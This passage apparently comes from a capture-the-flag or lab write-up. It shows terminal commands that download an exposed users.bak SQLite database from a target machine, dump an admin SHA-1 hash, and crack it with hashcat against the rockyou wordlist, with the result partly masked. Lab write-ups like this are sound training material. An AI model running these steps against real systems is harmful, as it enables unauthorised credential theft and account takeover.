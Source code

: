 ```bash
┌──(root㉿kali)-[~]
└─# wget http://10.10.23.241/custom/js/users.bak
--2024-11-01 23:15:51--  http://10.10.23.241/custom/js/users.bak
Connecting to 10.10.23.241:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8192 (8.0K) [application/x-trash]
Saving to: ‘users.bak’

users.bak                                                                      100%[===================================================================================================================================================================================================>]   8.00K  --.-KB/s    in 0.001s  

2024-11-01 23:15:51 (9.30 MB/s) - ‘users.bak’ saved [8192/8192]


┌──(root㉿kali)-[~]
└─# file users.bak                                                                                                          
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2


┌──(root㉿kali)-[~]
└─# sqlite3 users.bak 
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
        
```

The hash appeared to be a SHA-1, so I proceeded to crack the found password hash using Hashcat. After running the cracking process, password is successfully retrieved

```bash
┌──(root㉿kali)-[~]
└─# echo "1868e36a6d2b17d4c2745f1659433a54d4bc5f4b" > admin_hash
                                                                                                                            
┌──(root㉿kali)-[~]
└─# hashid admin_hash 
--File 'admin_hash'--
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1 
...
```

```bash
┌──(root㉿kali)-[~]
└─# hashcat -m 100 admin_hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
...

1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:b*******9        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
...

```
